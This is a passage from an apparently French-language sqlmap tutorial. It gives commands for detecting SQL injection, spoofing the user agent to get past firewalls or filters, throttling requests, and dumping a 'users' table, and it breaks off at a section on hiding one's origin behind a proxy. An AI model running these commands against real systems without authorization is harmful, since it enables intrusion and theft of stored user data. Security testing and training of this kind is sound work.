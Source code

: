 #### 6. Définir un Agent Utilisateur Personnalisé

Pour contourner certains pare-feu ou filtres :

```bash
sqlmap -u "http://example.com/page.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
```

* **Explication** :
  * `--user-agent` : Modifie l'agent utilisateur pour simuler un navigateur spécifique.

***

#### 7. Limiter l'Impact sur le Serveur

Pour éviter de surcharger le serveur cible :

```bash
sqlmap -u "http://example.com/page.php?id=1" --delay=5 --randomize=USER-AGENT
```

* **Explication** :
  * `--delay` : Ajoute un délai (en secondes) entre chaque requête.
  * `--randomize` : Change aléatoirement l'agent utilisateur à chaque requête.

***

### 📋 Scénarios d’Utilisation

***

#### Exemple 1 : Détection Simple d'Injection SQL

**Commande :**

```bash
sqlmap -u "http://example.com/page.php?id=1"
```

* **Explication** : Teste la vulnérabilité d'injection SQL pour le paramètre `id` dans l'URL.

***

#### Exemple 2 : Exploitation et Extraction de Données

**Commande :**

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --tables -D example_db -T users --dump
```

* **Explication** : Liste les bases de données (`--dbs`), les tables (`--tables`), et extrait les données de la table `users` dans la base `example_db`.

***

#### Exemple 3 : Masquer l’Origine avec un Proxy
